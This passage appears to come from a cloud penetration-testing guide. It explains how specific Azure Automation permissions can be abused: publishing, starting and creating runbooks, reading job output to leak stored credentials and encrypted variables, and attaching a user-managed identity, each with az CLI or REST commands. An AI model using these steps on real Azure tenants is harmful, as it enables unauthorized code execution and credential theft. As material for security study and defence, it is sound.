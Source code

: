 Note how the previous script can be used to **leak the useranmd and password** of a credential and the value of an **encrypted variable** stored in the Automation Account.

The permission **`Microsoft.Automation/automationAccounts/runbooks/publish/action`** allows the user to publish a Runbook in the Automation Account using so the changes are applied:

```bash
az automation runbook publish \
  --resource-group <res-group> \
  --automation-account-name <account-name> \
  --name <runbook-name>
```

The permission **`Microsoft.Automation/automationAccounts/jobs/write`** allows the user to run a Runbook in the Automation Account using:

```bash
az automation runbook start \
  --automation-account-name <account-name> \
  --resource-group <res-group> \
  --name <runbook-name> \
  [--run-on <name-hybrid-group>]
```

The permission **`Microsoft.Automation/automationAccounts/jobs/output/read`** allows the user to read the output of a job in the Automation Account using:

```bash
az rest --method GET \
  --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Automation/automationAccounts/<automation-account-name>/jobs/<job-name>/output?api-version=2023-11-01"
```

If there aren't Runbooks created, or you want to create a new one, you will need the **permissions `Microsoft.Resources/subscriptions/resourcegroups/read` and `Microsoft.Automation/automationAccounts/runbooks/write`** to do it using:

```bash
az automation runbook create --automation-account-name <account-name> --resource-group <res-group> --name <runbook-name> --type PowerShell
```

### `Microsoft.Automation/automationAccounts/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

This permission allows the user to **assign a user managed identity** to the Automation Account using:

```bash
az rest --method PATCH \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Automation/automationAccounts/<automation-account-name>?api-version=2020-01-13-preview" \
--headers "Content-Type=application/json" \
--body '{
  "identity": {
    "type": "UserAssigned",
    "userAssignedIdentities": {
      "/subscriptions/<subscripntion-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-managed-identity-name>": {}
    }
  }
}'
```
